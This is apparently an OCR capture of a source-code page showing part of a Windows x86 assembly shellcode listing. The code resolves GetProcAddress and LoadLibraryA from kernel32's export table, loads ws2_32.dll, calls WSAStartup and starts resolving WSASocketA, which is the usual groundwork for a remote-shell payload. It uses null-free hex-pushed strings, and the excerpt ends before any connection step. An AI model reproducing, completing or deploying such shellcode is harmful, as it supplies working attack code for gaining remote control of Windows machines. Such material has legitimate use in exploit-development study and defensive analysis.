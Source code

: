 ```c
CMP dword [EAX], 0x50746547                 ;"PteG"
JNZ SHORT GetFunction                       ;jump to GetFunction label if not "GetP"
CMP dword [EAX + 0x4], 0x41636F72           ;"rocA"
JNZ SHORT GetFunction                       ;jump to GetFunction label if not "rocA"
CMP dword [EAX + 0x8], 0x65726464           ;"ddre"
JNZ SHORT GetFunction                       ;jump to GetFunction label if not "ddre"
        
MOV ESI, DWORD [EDX + 0x24]                 ;ESI = Offset ordinals
ADD ESI, EBX                                ;ESI = Ordinals table
MOV CX,  WORD [ESI + ECX * 2]               ;CX = Number of function
DEC ECX                                     ;Decrement the ordinal
MOV ESI, DWORD [EDX + 0x1C]                 ;ESI = Offset address table
ADD ESI, EBX                                ;ESI = Address table
MOV EDX, DWORD [ESI + ECX * 4]              ;EDX = Pointer(offset)
ADD EDX, EBX                                ;EDX = GetProcAddress

; Get the Address of LoadLibraryA function
XOR ECX, ECX                                   ;ECX = 0
PUSH EBX                                       ;Kernel32 base address
PUSH EDX                                       ;GetProcAddress
PUSH ECX                                       ;0
PUSH 0x41797261                                ;"Ayra"
PUSH 0x7262694C                                ;"rbiL"
PUSH 0x64616F4C                                ;"daoL"
PUSH ESP                                       ;"LoadLibrary"
PUSH EBX                                       ;Kernel32 base address
MOV  ESI, EBX                                  ;save the kernel32 address in esi for later
CALL EDX                                       ;GetProcAddress(LoadLibraryA)
                          
ADD ESP, 0xC                                   ;pop "LoadLibraryA"
POP EDX                                        ;EDX = 0
PUSH EAX                                       ;EAX = LoadLibraryA
PUSH EDX                                       ;ECX = 0
MOV DX, 0x6C6C                                 ;"ll"
PUSH EDX                          
PUSH 0x642E3233                                ;"d.23"
PUSH 0x5F327377                                ;"_2sw"
PUSH ESP                                       ;"ws2_32.dll"
CALL EAX                                       ;LoadLibrary("ws2_32.dll")
                          
ADD  ESP, 0x10                                 ;Clean stack
MOV  EDX, [ESP + 0x4]                          ;EDX = GetProcAddress
PUSH 0x61617075                                ;"aapu"
SUB  word [ESP + 0x2], 0x6161                  ;"pu" (remove "aa")
PUSH 0x74726174                                ;"trat"
PUSH 0x53415357                                ;"SASW"
PUSH ESP                                       ;"WSAStartup"
PUSH EAX                                       ;ws2_32.dll address
MOV  EDI, EAX                                  ;save ws2_32.dll to use it later
CALL EDX                                       ;GetProcAddress(WSAStartup)
                          
; Call WSAStartUp                        
XOR  EBX, EBX                                  ;zero out ebx register
MOV  BX, 0x0190                                ;EAX = sizeof(struct WSAData)
SUB  ESP, EBX                                  ;allocate space for the WSAData structure
PUSH ESP                                       ;push a pointer to WSAData structure
PUSH EBX                                       ;Push EBX as wVersionRequested
CALL EAX                                       ;Call WSAStartUp

;Find the address of WSASocketA
ADD  ESP, 0x10                       ;Align the stack
XOR  EBX, EBX                        ;zero out the EBX register
ADD  BL, 0x4                         ;add 0x4 at the lower register BL
```